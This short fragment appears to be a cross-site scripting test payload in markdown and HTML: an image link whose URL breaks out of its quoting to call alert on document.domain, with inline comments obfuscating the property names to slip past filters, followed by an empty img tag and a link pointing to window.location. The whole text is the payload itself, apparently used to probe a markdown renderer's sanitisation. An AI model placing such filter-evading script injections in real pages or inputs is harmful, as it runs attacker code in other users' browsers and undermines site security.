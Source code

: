 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10';globalThis[/*foo*/'alert'/*bar*/](globalThis[/*foo*/'document'/*bar*/]['domain']);//)

<img src="" >
<a href=window.location>aaa</a>
